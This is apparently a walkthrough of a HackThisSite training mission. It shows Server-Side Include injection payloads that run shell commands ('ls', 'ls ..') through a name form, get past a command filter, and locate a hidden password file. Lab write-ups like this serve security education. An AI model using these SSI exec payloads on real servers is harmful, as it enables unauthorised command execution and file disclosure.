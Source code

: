 The password is yet again hidden in an unknown file. Sam's daughter has begun learning PHP
, and has a small script to demonstrate her knowledge.
Requirements: Knowledge of SSI (dynamic html executed by the server, rather than the browser)

So this challenge Code :
```html
<td class="sitebuffer" valign="top">
	<br>
		<br><center>
<br><center><b>Level 8</b></center><br><br>Sam remains confident that an obscured password file is still the best idea, but he screwed up with the calendar program. Sam has saved the unencrypted password file in /var/www/hackthissite.org/html/missions/basic/8/<br><br>However, Sam's young daughter Stephanie has just learned to program in PHP. She's talented for her age, but she knows nothing about security. She recently learned about saving files, and she wrote a script to demonstrate her ability.<br><br><center>Enter your name:
						 <form action="/missions/basic/8/level8.php" method="post">
						 <input name="name" type="text"><input value="submit" type="submit"></form>
						 </center><br><br><center><b>Password:</b><br>
						 <form action="/missions/basic/8/index.php" method="post">
						 <input name="password" type="password"><br><br>
						 <input value="submit" type="submit"></form>
</center></center></td>
```
and the challenge hint was to use SSI this is OWASP Document https://www.owasp.org/index.php/Server-Side_Includes_(SSI)_Injection

so when we inject the following command 
```html
<!--#exec cmd="ls" -->
``` 
the result was the following 
```text
Hi, tshngmww.shtml hipykpqu.shtml ztxdhjxn.shtml avpfeoie.shtml fviqpmaw.shtml kqbybdzc.shtml dzrnmzgx.shtml npcsygfl.shtml whqxxojt.shtml ylomcmvu.shtml uhdppswp.shtml gzntiicx.shtml dzwbqiuu.shtml qvzuieng.shtml smcerykh.shtml qjhnmhmq.shtml znodwztr.shtml!

Your name contains 254 characters.
```
now its mentioned that the flag is in this directory **/var/www/hackthissite.org/html/missions/basic/8/**

so we need to modify the command to list this path 
```html
<!--#exec cmd="ls  /var/www/hackthissite.org/html/missions/basic/8/" -->
```
and we went right into a filter 

```text
If you are trying to use server side includes to solve the challenge,
you are on the right track: but I have limited the commands allowed to ones relevant towards finding the password file for security reasons(because there will always be that one person who decides to execute some rather nasty commands).
So please manipulate your code so that it is a little more pertaining to the level.
```
 Since we can't list the Parent Directory using the full path we can list it using the below command 
 ```html
 <!--#exec cmd="ls .." -->
 ```
 and the output is the following 
 
 ```text
 Hi, au12ha39vc.php index.php level8.php tmp!

Your name contains 39 characters.
```
so lets call this file in Browser and we get our Password

